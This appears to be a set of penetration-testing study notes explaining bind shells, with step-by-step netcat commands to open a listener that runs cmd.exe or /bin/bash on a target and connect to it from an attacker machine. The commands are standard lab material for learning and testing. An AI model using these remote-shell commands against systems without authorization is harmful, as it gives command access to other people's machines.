 
### What is a Bind Shell ?

+ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

+ A Netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener.

![[Pasted image 20231018001454.png]]
- The attacker connects to the Netcat listener on target.

**Challenges of using bind shell**

1. The attacker might not be able to connect with the target at all due to security mechanisms blocking incoming connections. 
2. To establish connection, we need the target PC to have Netcat installed and a listener running on it. Netcat is not installed on Windows devices by default. If it isn't installed, we won't be able to connect. 

### How to setup a bind shell using `nc` ?

1. Send the `nc.exe` file in the `/usr/share/windows-binaries/` directory, by hosting it using `SimpleHTTPServer`.

2. In order to setup a bind shell, the target system needs to have a `nc` listener setup.\
```
nc.exe -lnvp <port> -e cmd.exe
```
- `-e` - Execute a program when a client connects to this listener. In our case, we'll be executing `cmd` to provide command shell session to the attacker. 

3. In our attacker machine, we'll be connecting to the target machine. 
```
nc -nv <target-ip> <port>
```
- This will provide us with a command shell access to the target machine.

4. We can also reverse the roles and make the Linux machine our target by setting up a listener and executing a bash shell session. 
```
nc -lnvp <port> -c /bin/bash
```
- `-c` - This option is for executing programs in Linux systems.

5. Now we can use our Windows machine as the attacker machine and connect to the IP address of the target i.e the Linux machine. 